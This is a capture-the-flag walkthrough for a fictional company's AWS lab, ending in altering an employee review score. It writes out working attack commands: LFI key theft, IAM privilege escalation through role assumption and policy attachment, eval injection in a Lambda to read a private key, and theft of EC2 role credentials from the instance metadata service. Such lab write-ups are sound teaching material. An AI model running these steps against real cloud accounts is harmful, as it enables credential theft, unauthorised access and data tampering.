

# Walkthrough


## Goal
120875ABAB must improve their review score to a value higher than 5.

## Steps
1. An employee web app displays review scores. It is hosted in a Docker container on an EC2 instance, but is unknown at this point.
2. The app is vulnerable to an LFI, and allows to retrieve a DynamoDB access key (**flag 1**). The code of file `app.php` also yields a valuable piece of information: a different message is displayed to employees with a score higher than 5.
3. Using the access key, dump the database using `aws dynamodb scan --table-name GOD_LoginEmployee` to obtain HR credentials (**flag 2**).
4. With the credentials, log back into the web app to access all employee reviews. This reveals the public documentation file `infrastructure.md` in an S3 bucket containing `GOD_svc_iam`'s access key (**flag 3**).
5. Using the access key, perform IAM reconnaissance:

```
aws iam list-roles --profile svc_iam
```
The role `GOD_IAM-Manager-Role` can be assumed by `GOD_svc_iam`:
```
"Statement": [
    {
        "Effect": "Allow",
        "Principal": {
            "AWS": "arn:aws:iam::274186580685:user/GOD_svc_iam"
        },
        "Action": "sts:AssumeRole"
    }
]
```

```
aws iam list-role-policies --role-name GOD_IAM-Manager-Role --profile svc_iam
aws iam get-role-policy --role-name GOD_IAM-Manager-Role --policy-name GOD_AttachCustomPolicies --profile svc_iam
```

The role `GOD_IAM-Manager-Role` has the role policy `GOD_AttachCustomPolicies` allowing to attach to a user the managed policies matching the pattern `GOD_Custom**`.

```
aws iam list-policies --profile svc_iam
aws iam get-policy-version --policy-arn arn:aws:iam::274186580685:policy/GOD_CustomDebugEmployeeReview --version-id v1 --profile svc_iam
```

The managed policy `GOD_CustomDebugEmployeeReview` awards privileges to get and invoke a lambda named `GOD_DebugEmployeeApp`.

```
aws sts assume-role --role-arn 'arn:aws:iam::274186580685:role/GOD_IAM-Manager-Role' --role-session-name iam --profile svc_iam
```

Assume the role `GOD_IAM-Manager-Role` to get an access key as the role.

```
aws iam attach-user-policy --user-name GOD_svc_iam --policy-arn arn:aws:iam::274186580685:policy/GOD_CustomDebugEmployeeReview --profile god_iam_manager

```

Using this key, attach the managed policy to `GOD_svc_iam`.

Then, retrieve the Lambda code (**flag 4**):

```
aws lambda get-function --function-name 'GOD_DebugEmployeeApp' --region us-east-1 --profile svc_iam
```

6. The Lambda has the function `get_private_key` which gets the key from Secrets Manager. While not directly accessible, the `DEBUG` command will `eval` the content of `debug_cmd`.

Instead of exfiltrating the key via HTTP, you can leverage slicing to restrict the length of the output like so:
```
aws lambda invoke --function-name 'GOD_DebugEmployeeApp' --payload '{ "command": "DEBUG", "debug_cmd": "get_private_key()[1][0:200]" }' --cli-binary-format raw-in-base64-out --profile svc_iam file1
aws lambda invoke --function-name 'GOD_DebugEmployeeApp' --payload '{ "command": "DEBUG", "debug_cmd": "get_private_key()[1][200:400]" }' --cli-binary-format raw-in-base64-out --profile svc_iam file2
```

The `infrastructure.md` file contains the username and port to use when sshing into the container hosting the employee web app (**flag 5**).

7. Once ssh'd, you can find out you are inside of a container when looking at processes (e.g. apache is PID 1). Then, the file `status.sh` reveals the Instance Metadata Service (IMDS), implying the container is running on an EC2 instance and also the existence of a second container for managers.

While the IMDS endpoint is accessible from the EC2, it can also be reached by the container since the EC2 (the host) routes the traffic.

An EC2 feature allows an instance to be provisioned by a script when created. This script is available in instance user data, available through IMDS:

```
curl http://169.254.169.254/latest/user-data/

#!/bin/bash

# Install dependencies
apt-get update
DEBIAN_FRONTEND=noninteractive apt-get upgrade -y
DEBIAN_FRONTEND=noninteractive apt-get install -y \
    unzip \
    awscli

# Setup docker
curl -fsSL https://get.docker.com -o get-docker.sh
sh get-docker.sh

# Retrieve source code from bucket
cd /opt
aws s3 cp s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/source.zip /opt/source.zip
unzip source.zip

# Retrieve debug ssh keys (will be used when building containers)
aws secretsmanager get-secret-value --secret-id GOD_EmployeeAppDebugKey --region us-east-1 > employee_app_secrets.json
aws secretsmanager get-secret-value --secret-id GOD_ManagerAppDebugKey  --region us-east-1 > manager_app_secrets.json

# We don't need the source anymore
aws s3 rm s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/source.zip

# Run cleanup script
sh /opt/clean.sh

# Get nginx conf (will be used by the nginx container)
aws s3 cp s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/nginx.conf /opt/nginx.conf

# Start containers
docker compose up --build -d
```

This reveals that the EC2 instance has privileges to interact with resources. At this point, you can either push the AWS CLI into the container to use the EC2's privileges, or simply get the access key of its assumed role to use on your host:

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/GOD_Ec2Role
```

Then, get the nginx configuration and the debug key for the manager container:

```
aws s3 cp s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/nginx.conf nginx.conf --profile ec2
aws secretsmanager get-secret-value --secret-id GOD_ManagerAppDebugKey --region us-east-1 --profile ec2 > manager_app_secrets.json
```

The nginx config shows a manager web app accessible at the same IP but from `/manager-reviewing/`. The debug key is another private key to ssh into the manager container from the employee one.

Transfer the key on the employee container or port forward to ssh into the manager container (**flag 6**).

8. Perform reconnaissance on the container. The file `/var/www/html/libs/dynamo.php` contains another set of DynamoDB access key, but with privileges on the tables `GOD_LoginManager` and `GOD_ReviewEmployee`.

9. Remember the goal of improving 120875ABAB's review score. Use yet another `dynamodb scan` command to dump the the manager's credentials. Authenticate into the web app at `/manager-reviewing/` and change 120875ABAB's score to a value higher than 5. Log back into the `/employee-review/` as 120875ABAB (**flag 7**).